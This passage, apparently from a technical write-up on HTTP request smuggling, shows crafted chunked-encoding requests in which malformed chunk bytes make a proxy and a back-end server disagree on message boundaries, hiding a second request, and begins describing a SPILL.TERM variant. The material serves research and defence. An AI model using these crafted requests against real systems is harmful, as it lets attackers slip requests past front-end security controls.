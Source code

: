 <span class="http-line-break">\r\n</span>
</span><span class="http-highlight http-highlight-three"><span class="http-highlight-head http-highlight-three-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span></code></pre>

<p style="text-align: center; font-weight: bold;">TERM interpretation (proxy)</p>
</div>

<div style="flex: 1;">

<pre><code>GET /one HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">5<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk header</span>
</span>AAAAAXX<span class="http-highlight-text">chunk body</span>
45<span class="http-line-break">\r\n</span>
</span><span class="http-highlight http-highlight-two"><span class="http-highlight-head http-highlight-two-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span>GET /two HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #2</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span></code></pre>

<p style="text-align: center; font-weight: bold;">SPILL interpretation (server)</p>
</div>
</div>

On the front-end, the `XX` sequence is interpreted as a CRLF, and the subsequent `45` sequence is interpreted as the size of the next chunk. On the back-end, the entire `XX45` sequence is interpreted as spill bytes and thus ignored. Therefore, a second pipelined request can be hidden in what the proxy perceives as the body of the second chunk. 


#### SPILL.TERM
In the opposite scenario, the proxy ignores spills in chunk bodies and we must find a sequence to place in a spill that only the server interprets as a line terminator. Let us this time suppose that a `\rX` sequence is ignored on the front-end but interpreted as a line terminator on the back-end.

<div style="display: flex; gap: 10px;">
<div style="flex: 1;">

